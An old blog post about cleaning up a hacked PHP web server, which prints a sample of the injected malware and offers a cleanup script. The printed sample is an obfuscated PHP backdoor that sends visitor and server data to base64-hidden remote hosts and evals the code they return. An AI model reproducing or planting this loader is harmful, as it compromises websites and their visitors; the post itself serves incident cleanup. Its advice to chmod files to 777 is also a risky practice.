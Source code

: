 ```yaml
---
layout: post
status: publish
published: true
title: Hacked Server - Cleanup Script
author: admin
author_login: blogadmin
author_email: info@edmondscommerce.co.uk
author_url: http://www.edmondscommerce.co.uk
wordpress_id: 1186
wordpress_url: http://www.edmondscommerce.co.uk/blog/?p=1186
date: 2009-09-14 14:24:47.000000000 +01:00
categories:
- php
tags:
- edmondscommerce
---
```

<div class="oldpost"><h4>This is post is now quite old and the the information it contains may be out of date or innacurate.</h4>
<p>
If you find any errors or have any suggestions to update the information <a href="http://edmondscommerce.github.io/contact-us/index.html">please let us know</a>
or <a href="https://github.com/edmondscommerce/edmondscommerce.github.io">create a pull request on GitHub</a>
</p>
</div>
If you suddenly find a load of weird php files in your server with contents a bit like this:

```php

<? error_reporting(0);$a=(isset($_SERVER["HTTP_HOST"])?$_SERVER["HTTP_HOST"]:$HTTP_HOST);$b=(isset($_SERVER["SERVER_NAME"])?$_SERVER["SERVER_NAME"]:$SERVER_NAME);$c=(isset($_SERVER["REQUEST_URI"])?$_SERVER["REQUEST_URI"]:$REQUEST_URI);$d=(isset($_SERVER["PHP_SELF"])?$_SERVER["PHP_SELF"]:$PHP_SELF);$e=(isset($_SERVER["QUERY_STRING"])?$_SERVER["QUERY_STRING"]:$QUERY_STRING);$f=(isset($_SERVER["HTTP_REFERER"])?$_SERVER["HTTP_REFERER"]:$HTTP_REFERER);$g=(isset($_SERVER["HTTP_USER_AGENT"])?$_SERVER["HTTP_USER_AGENT"]:$HTTP_USER_AGENT);$h=(isset($_SERVER["REMOTE_ADDR"])?$_SERVER["REMOTE_ADDR"]:$REMOTE_ADDR);$i=(isset($_SERVER["SCRIPT_FILENAME"])?$_SERVER["SCRIPT_FILENAME"]:$SCRIPT_FILENAME);$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"])?$_SERVER["HTTP_ACCEPT_LANGUAGE"]:$HTTP_ACCEPT_LANGUAGE);$z="/?".base64_encode($a).".".base64_encode($b).".".base64_encode($c).".".base64_encode($d).".".base64_encode($e).".".base64_encode($f).".".base64_encode($g).".".base64_encode($h).".e.".base64_encode($i).".".base64_encode($j);$f=base64_decode("cnNzbmV3cy53cw==");if (basename($c)==basename($i)&&isset($_REQUEST["q"])&&md5($_REQUEST["q"])=="bbb9c757ee480495e0311cdcd352dfb1") $f=$_REQUEST["id"];if((include(base64_decode("aHR0cDovL2Fkcy4=").$f.$z)));else if($c=file_get_contents(base64_decode("aHR0cDovLzcu").$f.$z))eval($c);else{$cu=curl_init(base64_decode("aHR0cDovLzcxLg==").$f.$z);curl_setopt($cu,CURLOPT_RETURNTRANSFER,1);$o=curl_exec($cu);curl_close($cu);eval($o);};die(); ?>

```

Then it looks like your server has been compromised and you immediately need to change your FTP password to something long and secure.

After that, ideally restore a backup of your site that does not include the dodgy files. Alternatively you might find this PHP script useful for cleaning things out:

Note - No warranty or anything for this script. Use it as it is or customise it to fix your particular requirements.

To use it, get a copy of the infected file structure. CHMOD it all to 777 so that we can edit the htaccess files (dont forget to change permissions again once its done). Put this script in the root folder and visit it in your browser.

It will tidy up all the htaccess files and will remove all the dodgy files.

```php

<?php

/* recursively delete all php files that are numeric titles, then edit all htaccess files and remove the 404 message */

$directory=getcwd();

$dirs = dir_list(getcwd());

clean($dirs, $directory);

function clean($dirs, $directory){	
	foreach($dirs as $k=>$v){
		if(is_array($v)){
			clean($v, "$directory/$k");
		}else{
			if(preg_match('%^([0-9]+?)\.php$%', $v)){
				echo '<h3>Cleaning: '.$directory.'</h3>';
				echo '<br>'.$v;
				echo '<br>'.$directory.'<br>';
				$htaccess=file_get_contents("$directory/.htaccess");
				$pattern = '%ErrorDocument(.+?)([0-9]+?)\.php$%';
				$clean_ht = preg_replace($pattern, '', $htaccess);
				unlink("$directory/.htaccess");
				file_put_contents("$directory/.htaccess", $clean_ht);
				unlink("$directory/$v");
				echo '<h3>Cleaned: '.$directory.'</h3>';				
			}
		}
	}
}


function dir_list($directory, $ext=false){
	//echo $directory;
	if ($handle = opendir($directory)) {
		while (false !== ($file = readdir($handle))) {
			if($file != '.' && $file != '..'){
				if(is_dir($directory.'/'.$file)){
					$return[$file]=dir_list($directory.'/'.$file, $ext);			
				}elseif($ext != false){
					if($ext == file_ext($file)){
						$return[] = $file;
					}			
				}else{
					$return[] = $file;
				}
			}
		}
		closedir($handle);
		return $return;
	}else{		
		echo '<h3 style="color: red;">Error opening directory ' . $directory . '</h3>';
		return false;
	}
}


```

<a href="http://www.phpfreaks.com/forums/index.php?topic=251135.0">http://www.phpfreaks.com/forums/index.php?topic=251135.0</a>
<a href="http://wordpress.org/support/topic/220523">http://wordpress.org/support/topic/220523</a>
<a href="http://www.experts-exchange.com/Web_Development/Web_Services/Q_24209148.html">http://www.experts-exchange.com/Web_Development/Web_Services/Q_24209148.html</a>
